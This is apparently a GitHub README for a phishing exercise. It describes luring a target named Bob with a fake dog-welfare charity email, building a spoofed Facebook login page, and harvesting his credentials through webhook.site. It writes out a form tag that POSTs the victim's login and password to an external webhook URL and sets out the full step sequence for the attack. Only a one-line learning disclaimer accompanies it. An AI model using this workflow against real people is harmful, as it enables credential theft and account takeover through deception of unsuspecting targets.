






# Project: Lets's Go Phishing

## Project context

Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. Alice is a fan of Mécanique. She has two vintage cars and often likes to parade around with her ancestral objects. Deploy a phishing technique to obtain sensitive information from Bob and Alice

## Goal

The aim to develop compelling email that lures the target into action and obtain their login credentials.

## Steps

To achieve the goal, I have distilled the process into the following steps:

1. Compose html-format text
2. Develop spoofed-website
3. Deploy data-harvesting tool
4. Embed malicious link in email
5. Create legit-looking Email sender address
6. Send mail to recipient


## Compose html-format text

The target is Bob. Since he loves his dog, Shimi, I have created an enticing email purporting to be from a non-governmental organization dubbed 'European Dog Trust' concerned about the welfare of dogs. 

To develop this email, I have utilized HTML and CSS. HTML (Hypertext Markup Language) defines the content and layout whilst CSS (Cascading Stylesheet) enhances the visual appearance of the page by allowing to apply styles such as colors, fonts, spacing, and positioning.

As with every successful phishing content, the html-format email have been carefully crafted _(see photo below)_. First, to appear from legitimate source and then to lure the unsuspecting Bob into action- click on the "Contact Us" button. 



## Develop Spoofed Website

The interest is in Bob's Facebook login data. To obtain these, develop a spoofed Facebook website. A spoofed website is a fraudulent site designed to mimic a legitimate one, often used for phishing or scamming purposes. 

Templates of Facebook login page code can be found on [Codepen.io](www.codepen.io). The login web page built mirrors the authentic one. See [Login-HTML](FBlogin.html) and [Login-CSS](FBlogin.css)



## Deploy Data Harvesting Tool

The intention is to get Bob to interact with the spoofed website and supply credentials to the login page. These data can then be obtain albeit maliciously in the backend through a process dubbed 'Data Harvesting'. Data harvesting refers to the unauthorized collection of sensitive information (personal or financial data) through malicious means.

The data harvesting tool used was [WebHook](www.webhook.site). <br><br>
Steps:
- Launch [WebHook](www.webhook.site)
- Copy your URL (to be used later)



## Embed malicious link in email

Now add the webhook URL and a Javascript script tag to the phishing content. In the html-format email body, add a 'form' tag as shown below. The form embedded within the HTML structure serves as a decoy interface to log in to a Facebook. It requests the user's email or phone number and password. When Bob clicks on "Login" button, the session is intercepted and the credential transmitted to the Webhook URL. The captured data can be seen on Webhook in real time

```
<form id="myForm" action="https://webhook.site/d4dadb81-3d7b-4a3e-9650-ddbd953660e9" method= "POST" class="form">
```


Next create a .js file with the [Javascript code](script.js) and add a script tag at the tail end of the html-format email body as shown below to link the code.



Eureka!!!!! ===============================================================================55

Once Bob attempts to login, you can obtain the supplied credential on the webhook site.



### Disclaimer:

This documentation is meant solely for the purpose of learning. The author assumes no liability for illegal use, misuse, and/or any damages as a consequence of usage.

